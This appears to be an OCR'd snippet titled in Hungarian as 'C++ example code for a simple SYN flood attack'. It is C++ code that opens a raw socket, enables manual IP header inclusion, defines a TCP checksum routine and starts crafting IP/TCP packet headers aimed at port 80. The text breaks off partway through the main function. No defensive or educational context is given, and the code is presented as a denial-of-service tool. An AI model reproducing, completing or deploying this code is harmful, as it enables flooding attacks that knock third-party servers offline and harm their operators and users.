 C++ példakód egy egyszerű SYN flood támadásra:
```cpp
#include <iostream>
#include <cstring>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <netinet/tcp.h>
#include <netinet/ip.h>
#include <unistd.h>

struct pseudo_header {
    u_int32_t source_address;
    u_int32_t dest_address;
    u_int8_t placeholder;
    u_int8_t protocol;
    u_int16_t tcp_length;
};

/* TCP checksum calculation function */
unsigned short csum(unsigned short *ptr, int nbytes) {
    register long sum;
    unsigned short oddbyte;
    register short answer;

    sum = 0;
    while (nbytes > 1) {
        sum += *ptr++;
        nbytes -= 2;
    }
    if (nbytes == 1) {
        oddbyte = 0;
        *((u_char *)&oddbyte) = *(u_char *)ptr;
        sum += oddbyte;
    }

    sum = (sum >> 16) + (sum & 0xffff);
    sum = sum + (sum >> 16);
    answer = (short)~sum;

    return (answer);
}

int main() {
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
    if (sock < 0) {
        std::cerr << "Socket creation failed\n";
        return 1;
    }

    const int one = 1;
    const int *val = &one;
    if (setsockopt(sock, IPPROTO_IP, IP_HDRINCL, val, sizeof(one)) < 0) {
        std::cerr << "Setting IP_HDRINCL failed\n";
        return 1;
    }

    char datagram[4096];

    struct iphdr *iph = (struct iphdr *)datagram;
    struct tcphdr *tcph = (struct tcphdr *)(datagram + sizeof(struct iphdr));
    struct sockaddr_in sin;

    sin.sin_family = AF_INET;
    sin.sin_port = htons(80);
```